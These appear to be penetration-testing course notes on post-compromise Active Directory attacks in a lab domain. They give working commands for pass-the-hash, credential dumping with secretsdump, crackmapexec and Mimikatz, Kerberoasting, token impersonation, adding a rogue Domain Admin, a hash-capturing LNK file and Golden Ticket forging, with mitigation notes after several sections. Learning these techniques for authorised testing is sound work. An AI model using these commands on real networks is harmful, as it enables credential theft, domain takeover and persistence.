

# Attack Active Directory - Post-Compromise Attacks
- talk about what we can do with the access we have

## Pass Attacks Overview

- What are this?
    - if we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks

```bash
crackmapexec --help
crackmapexec smb --help
# Let's pass what we just cracked
crackmapexec smb <192.168.138.0/24,IP> -u <user,fcastle> -d MARVEL.local -p <pass>
# we can also use secretsdump!
secretsdump.py MARVEL.local/fcastle:Password1@10.0.0.25
# with a hash
secretsdump.py administrator:@192.168.138.138 -hashes <hash:hash>
# llmnr -> fcastle hash -> cracked -> sprayed the password -> found new login -> secretsdump logins -> local admin hashes -> respray the network with local accounts
# Let's pass the hash with NTLMv1 not v2, we can relay with v2 but not pass the hash
crackmapexec smb <ip/cidr> -u <user> -h <hash> --local-auth
# We can even use CME to dump SAM
crackmapexec smb <ip/cidr> -u <user> -h <hash> --local-auth --sam
# we can also enumerate shares
crackmapexec smb <ip/cidr> -u <user> -h <hash> --local-auth --shares
# dump the lsa (local secruity authority)
crackmapexec smb <ip/cidr> -u <user> -h <hash> --local-auth --lsa
# list all built-in modules
crackmapexec smb -L
# dump the lsass (its responsble for enforcing security policies in the system + its store credentiels)
crackmapexec smb <ip/cidr> -u <user> -h <hash> --local-auth -M lsassy
# The CME DB
cmedb
> hosts
> creds
> help # for commands

# crack ntlm hash
hashcat -m 1000 ntlm.txt /usr/share/wordlist/rockyou.txt
```

:::Note
Pwn3d! mean its local admin in this machine
::::

:::Tip
wdigest is a challenge/response protocol that was primarily used in Windows Server 2003 for LDAP and web-based authentication.
WDigest stores clear-text passwords in memory. Therefore, if an adversary who has access to an endpoint can use a tool like Mimikatz to get not just the hashes stored in memory, but the clear-text passwords as well. 
:::

### Pass Attack Mitigations
Hard to completely prevent, but we can make it more difficult on an attacker:
- Limit account re-use:
    - Avoid re-using local admin password
    - Disable Guest adn Administrator accounts
    - Limit who is a local administrator (least privilage)
- Utilize strong passwords:
    - The longer the better (> 14 characters)
    - Avoid using common words
    - I like long sentences
- Privilage Access Management (PAM):
    - Check out/in sensitive accounts when needed
    - Automatically rotate passwords on check out and check
    - Limits pass attacks as hash/password is strong and constantly rotated

## Kerberoasting



```bash
# Step 1 : Get SPNs, Dump Hash
python GetUserSPNs.py MARVEL.local/fcastle:Password1 -dc-ip <ip of DC> -request
# Step 2 : Crack that hash
hashcat -m 13100 kerberoast.txt rockyou.txt
```

### Kerberoasting Mitigation

- Strong Passwords
- Least Privilege

## Tokens Impersonation Overview

- What are tokens?
    - Temporary keys that allow u access to a system/netwoek without having to provide credentials each time u access a file. Think cookies for computers
- Two Types :
    - **Delegate** : Created for logging into a machine or using Remote Desktop
    - **Impersonate** : "non-interactive" such as attaching a network drive or a domain logon script

Why this is bad?

```bash
# Pop a shell and load incognito
msfconsole
msf6> search psexec
# set option and payload to x64
meterpreter> getuid
meterpreter> load incognito
meterpreter> list_tokens -u
# Impersonate our domainuser
meterpreter> impersonate_token marvel\\fcastle
meterpreter> shell
C:\> whoami
# Attempt to dump hashes as non-Domain Admin -> Access Denied
c:\> Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject" exit' -Computer HYDRA.marvel.local
# what if a Domain Admin token was available?
# Identify Domain Administrator
meterpreter> list_tokens -u
meterpreter> impersonate_token MARVEL\\administrator
meterpreter> shell
C:\> whoami
# Run just fine
C:\> Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject" exit' -Computer HYDRA.marvel.local
# we can add a user
C:\> net user /add hawkeye Password1@ /domain
# then add that user to Domain admin
C:\> net group "Domain Admins" hawkeye /ADD /DOMAIN
# try secretsdump on it
```

### Tokens Impersonation Mitigation

- Limit user/group token creation permission
- Account tiering
- Local admin restriction

## LNK File Attack 
Placing a milicious file in a shared folder can lead to some great results!

```bash
PS C:\> $objShell = New-Object -ComObject WScript.shell
PS C:\> $lnk = $objShell.CreateShortcut("C:\test.lnk")
PS C:\> $lnk.TargetPath = "\\192.168.138.149\@test.png"
PS C:\> $lnk.WindowStyle = 1
PS C:\> $lnk.IconLocation = "%Windor%\system32\shell32.dll, 3"
PS C:\> $lnk.Description = "Test"
PS C:\> $lnk.HotKey = "Ctrl+Alt+T"
PS C:\> $lnk.Save()
# this generate a file, if the file triggered we can capture hashes through responder
```

## GPP or cPaswword Attacks and Mitigations

- Group Policy Preferences (GPP) allowed admins to create policies using embedded credentials
- These credentials were encrypted and placed in a "cPassword"
- The key was accidentally released
- Patched in MS14-025, but it doesn't prevent previous uses
- STILL RELEVANT ON PENTESTS


- Mitigation Strategies
    - PATCH! Fixed in KB2962486
    - In reality: delete the old GPP xml files stored in the SYSVOL

## Mimikatz Overview

- Tool used to view and steal credentials, generate kerberos tickets, adn leverage attacks
- Dump credential  Stored in memory
- Just a few attacks: Credential Dumping, Pass-The-Hash, Over-Pass-The-Hash, Pass-The-Ticket, Silver Ticket, and Golden Ticket

```bash
# Copy the Four x64 files add them to the windows
# exec mimikatz
C:\> mimikatz.exe
mimikatz \# privilege::debug
mimikatz \# sekurlsa::logonPasswords
```

## POST-Compromise Attack Strategy

- We have an accout, now what?
- Search the quick wins
    - Kerberoasting
    - Secretsdump
    - Pass the hash/ pass the password
- No quick win? Big deep!
    - Enumerate (Bloodhound, etc.)
    - where does your account have access?
    - Old vulnerbilities die hard
- Think outside the box

# We've Compromised the Domain - Now What?
## Post-Domain Compromise Attack Strategy

- Provide as much value to the client as possible
    - Put your blinders on and do it again
    - Dump the NTDS.dit and crack passwords
    - Enumerate shares for sensitive information
- Persistence can be important
    - What happens if our DA (Domain Admin) access is lost?
    - Creating a DA account can be useful (DO NOT FORGET TO DELETE IT)
    - Creating a Golden Ticket can be usefum, too

## Dumping the NTDS.dit

A database used to store AD data. This data includes:
- User Information
- Group Information
- Security descriptors
- And oh yeah, password hashes

```bash
# Dumping the NTDS.dit
# We can simply use secretsdump against the DC to perform this attack
secretsdump.py MARVEL.local/pparker:'Password2'@192.168.138.132 -just-dc-ntlm
```

## Golden Tickets Attack

What is it?
- When we compromise the krbtgt account, we own the domain
- We can request access to any resource or system on the domain
- Golden tickets == complete access to every machine

```bash
# we can use Mimikatz to obtain the information necessary to perform this attack
C:\> mimikatz.exe
mimikatz \# privilege::debug
mimikatz \# lsadump::lsa /inject /name:krbtgt
# Once we have the SID and krbtgt hash, we can generate a ticket
mimikatz \# kerberos::golden /User:Administrator /domain:marvel.local /sid:... /krbtgt:... /id:500 /ptt
# with a Golden ticket, we can now access other machines from the CMD
mimikatz \# misc::cmd
C:\> dir \\10.0.0.25\C$
C:\>  PSExec64.exe \\10.0.0.25 cmd.exe 
C:\> whoami # another user
C:\> hostname
```
